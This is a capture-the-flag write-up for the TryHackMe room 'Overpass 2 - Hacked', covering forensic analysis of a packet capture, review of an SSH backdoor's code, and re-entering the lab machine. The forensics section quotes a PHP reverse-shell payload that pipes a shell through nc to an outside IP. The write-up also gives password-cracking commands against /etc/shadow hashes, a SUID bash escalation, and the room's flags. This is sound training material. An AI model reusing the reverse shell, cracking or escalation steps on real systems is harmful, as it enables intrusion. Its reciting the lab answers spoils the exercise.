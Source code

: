 ```yaml
---
title: Overpass 2 - Hacked
layout: post
author: Bit Criminals Team
date: 2021-06-28 21:55:00 +0530
type: Pentesting
difficulty: Easy
prompt: https://tryhackme.com/room/overpass2hacked
---
```


This room was not like the usual ones. We had to first analyze a .pcapng file. 

# Forensics - Analyse the PCAP

**What was the URL of the page they used to upload a reverse shell?**

![](/images/Mars/overpass1.png)

On close observation, you will find that the page is ```/development/```

**What payload did the attacker use to gain access?**

![](/images/Mars/overpass2.png)

When we followed the TCP stream of the packet with /development/uploads.php and found the above. Hence, the payload the attacker used was 
```<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>```

**What password did the attacker use to privesc?**

![](/images/Mars/overpass3.png)

On following the TCP streams available we found this goldmine of information. Clearly the password the attacker used was the password of James.
```whenevernoteartinstant```

**How did the attacker establish persistence?**

![](/images/Mars/overpass4.png)

On going further through the above TCP stream, we understood that the attacker planted an ssh backdoor to establish persistence. Clearly, he did so by cloning the following github repository.
```https://github.com/NinjaJc01/ssh-backdoor```

**Using the fasttrack wordlist, how many of the system passwords were crackable?**

Futher down in the same TCP stream, the attacker viewed the "/etc/shadow" file. Here we found the password hashes of five users. (Refer the image above)
We copied the password hashes into another file and used John the Ripper to crack the hashes. We used the fasttrack wordlist as per the requirment. The command used was
>john --wordlist=/usr/share/wordlists/fasttrack.txt hash1

![](/images/Mars/overpass6.png)

Hence ```4``` hashes were cracked.

# Research - Analyse the code

The attacker created a backdoor using the code from ***https://github.com/NinjaJc01/ssh-backdoor***. So we cloned this repository to analyze the code.

**What's the default hash for the backdoor?**

In the main.go file, we found the default hash for the back door. Also note the port 2222 which the attacker used.

![](/images/Mars/overpass7.png)

```bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3```

**What's the hardcoded salt for the backdoor?**

Futher down in the same file we found the hardcoded salt for the backdoor.

![](/images/Mars/overpass8.png)

```1c362db832f3f864c8c2fe05f2002a05```

**What was the hash that the attacker used? - go back to the PCAP for this!**

![](/images/Mars/overpass5.png)

```6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed```

**Crack the hash using rockyou and a cracking tool of your choice. What's the password?**

We created a file with the above hash and the hardcoded salt for the backdoor in the format hash$salt ahd used John the Ripper.
>john -form=dynamic='sha512($p.$s)' --wordlist=/usr/share/wordlists/rockyou.txt hash2

The password was ```november16```


# Attack - Get back in!

**The attacker defaced the website. What message did they leave as a heading?**

On opening the website "http://10.10.114.96", we found this.

![](/images/Mars/overpass10.png)

```H4ck3d by CooctusClan```

**What's the user flag?**

We had to begin with nmap scan, but this time it was unusually long. But we knew that the attacker used port 2222. So we logged in at port 2222 uing ssh
>ssh -p 2222 james@10.10.114.96

Finally result of the nmap scan came!
![](/images/Mars/overpass9.png)

We found the user falg in user.txt in the home directory of james.

![](/images/Mars/overpass11.png)

```thm{d119b4fa8c497ddb0525f7ad200e6567}```

**What's the root flag?**

Now comes the best part, privelage escelation.
We tried "sudo -l" as usual but this time the old password was incorrect. This meant the password was changed. The attacker is a smart guy!
Searching for a way to break in, we looked at all the files in the home directory. We found an unusual executable file owned by root.

![](/images/Mars/overpass12.png)

On execution using "./.suid_bash" it gave us a shell, but the user was still james. So this time we executed
>./.suid_bash -p

 We became the root!!!

![](/images/Mars/overpass13.png)

```thm{d53b2684f169360bb9606c333873144d}```










